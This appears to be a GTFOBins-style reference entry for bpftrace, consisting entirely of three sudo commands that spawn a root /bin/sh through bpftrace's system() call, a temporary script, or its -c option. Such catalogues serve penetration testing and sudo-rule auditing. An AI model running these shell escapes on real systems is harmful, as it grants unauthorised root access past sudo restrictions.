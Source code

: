 functions:
  sudo:
    - code: sudo bpftrace -e 'BEGIN {system("/bin/sh");exit()}'
    - code: |
        TF=$(mktemp)
        echo 'BEGIN {system("/bin/sh");exit()}' >$TF
        sudo bpftrace $TF
    - code: sudo bpftrace -c /bin/sh -e 'END {exit()}'
---

